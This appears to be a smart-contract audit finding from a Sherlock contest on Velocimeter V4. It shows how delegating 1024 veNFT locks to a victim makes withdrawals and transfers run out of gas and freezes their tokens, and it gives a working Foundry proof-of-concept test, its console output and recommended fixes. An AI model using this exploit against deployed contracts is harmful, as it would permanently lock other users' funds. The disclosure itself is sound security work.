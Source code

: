Polite Butter Gazelle

High

# Attacker can DoS `veNFT` holders by delegating `MAX_DELEGATES = 1024` tokens

## Summary

The [README](https://audits.sherlock.xyz/contests/442#:~:text=First%20on%20IOTA%20EVM%2C%20but%20code%20was%20build%20with%20any%20EVM%2Dcompatible%20network%20in%20mind.%20There%20is%20no%20plan%20to%20deploy%20in%20on%20Ethereum%20mainnet) states that the `Velocimeter` contracts will be deployed on any EVM compatible chain, but will not be deployed on Ethereum mainnet.

There is a [known critical issue](https://velodrome.finance/security) with `Velodrome V1` forks that allows an attacker to DoS any `veNFT` holders by permanently locking their tokens, and hasn't been fixed in `Velocimeter V4`.

An attacker can delegate the locked balance of their `veNFT` to an innocent user until it reaches `MAX_DELEGATES`, where on some chains will revert any transfer/mint/burn calls due to out of gas error.

## Vulnerability Detail

`VotingEscrow::delegate` allows users to transfer the balance of their locked `veNFT` amount to anyone (also can be done by simply transferring the NFT):

[VotingEscrow.sol#L1488-L1505](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1488-L1505)
```javascript
    function _delegate(address delegator, address delegatee) internal {
        /// @notice differs from `_delegate()` in `Comp.sol` to use `delegates` override method to simulate auto-delegation
        address currentDelegate = delegates(delegator);

        _delegates[delegator] = delegatee;

        emit DelegateChanged(delegator, currentDelegate, delegatee);
        _moveAllDelegates(delegator, currentDelegate, delegatee);
    }

    /**
     * @notice Delegate votes from `msg.sender` to `delegatee`
     * @param delegatee The address to delegate votes to
     */
    function delegate(address delegatee) public {
        if (delegatee == address(0)) delegatee = msg.sender;
        return _delegate(msg.sender, delegatee);
    }

```

`MAX_DELEGATES` is set to `1024`:

[VotingEscrow.sol#L1266)](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1266)
```javascript
    uint public constant MAX_DELEGATES = 1024; // avoid too much gas
```

As the dev comments suggest, this is too avoid too much gas spent from transfer/mint/burn calls. 

It was found that any user with `MAX_DELEGATES` tokens will use about `23M gas` in any transfer/mint/burn call. However, the gas limit on some EVM compatible chains is < 23M, such as [Moonbeam](https://moonscan.io/block/6727847) and [Gnosis](https://gnosisscan.io/block/35137725).

This will DoS any calls to transfer/mint/burn, which will cause the locked tokens to be permanently stuck in `VotingEscrow`.

An attacker can exploit this by delegating tokens to an innocent user until the amount they hold reaches `MAX_DELEGATES`. 

## Proof of Concept

<details>
<summary>Coded PoC</summary>
<br>

Add the following to `test/VotingEscrow.t.sol` and run `forge test --mt testDelegateLimitAttack -vv`

```javascript
    function testDelegateLimitAttack() public {
        uint256 maxtime = 52 * 7 * 24 * 3600; // 52 weeks
        
        FLOW.mint(address(owner), TOKEN_1M);
        DAI.mint(address(owner), TOKEN_1M);
        FLOW.approve(address(router), TOKEN_1M);
        DAI.approve(address(router), TOKEN_1M);
        router.addLiquidity(address(FLOW), address(DAI), false, TOKEN_1M, TOKEN_1M, 0, 0, address(owner), block.timestamp);

        vm.prank(address(owner));
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint tokenId = escrow.create_lock(TOKEN_1, 7 days);
        for(uint256 i = 0; i < escrow.MAX_DELEGATES() - 1; i++) {
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 2);
        address fakeAccount = address(uint160(420 + i));
        flowDaiPair.transfer(fakeAccount, 1 ether);
        vm.startPrank(fakeAccount);
        flowDaiPair.approve(address(escrow), type(uint256).max);
        escrow.create_lock(1 ether, maxtime);
        escrow.delegate(address(this));
        vm.stopPrank();
        }
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 7 days);
        uint initialGas = gasleft();
        escrow.withdraw(tokenId);
        uint gasUsed = initialGas - gasleft();
        console.log("Gas used for withdrawal: ", gasUsed);
    }
```
</details>

### Console Output

```text
Running 1 test for test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testDelegateLimitAttack() (gas: 12491047856)
Logs:
  Gas used for withdrawal:  23677222

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.84s

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

Attacker can exploit this issue to cause out of gas error on any EVM-compatible chain with a gas limit <= 23M per block. The impacts are loss of funds, permanent DoS for `veNFT` holders, and tokens stuck in `VotingEscrow` permanently.

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1488-L1505

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1266

## Tool used

Manual Review

## Recommendation

Consider the following options to fix this:

1. Change `MAX_DELEGATES` from 1024 to 128

2. Incorporate pull over push method when moving delegates (i.e., allow user to deny or accept request to receive delegates)

3. Use static balances, as it's done in [Velodrome V2](https://github.com/velodrome-finance/contracts/commit/0b47fe51a4b91fdbcfff0cd8bd2dfba4f9e94e48)
